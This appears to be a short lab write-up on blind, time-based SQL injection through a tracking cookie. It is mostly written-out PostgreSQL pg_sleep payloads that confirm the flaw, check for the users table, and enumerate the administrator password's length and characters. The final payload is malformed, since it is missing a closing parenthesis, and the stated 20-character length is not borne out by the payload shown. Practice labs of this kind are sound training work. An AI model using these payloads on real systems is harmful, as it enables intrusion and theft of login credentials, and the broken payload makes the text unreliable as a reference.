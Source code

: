 Lab :14 - Blind SQL injection with time delays and information retrieval

Vulnerable parameter - tracking cookie

End Goals:
- Exploit time-based SQLi to output the adminstrator password
- Login as Administrator

Analysis:

1) Confirm that the parameter is vulnerable to sqli

'|| pg_sleep(10)--

2) confirm that the users table exist in the database

'|| (select case when (1=1) then pg_sleep(10) else pg_sleep(-1) end)--

' || (select case when (username='administrator') then pg_sleep(10) else pg_sleep(-1) end from users)--

3) Enumerate the password length

' || (select case when (username='administrator' and LENGTH(password)>1) then pg_sleep(10) else pg_sleep(-1) end from users)--

-> length of password is exactly 20 chars

4) Enumerate the password
' || (select case when (username='administrator' and substring(password,1,1)='a' then pg_sleep(10) else pg_sleep(-1) end from users)--


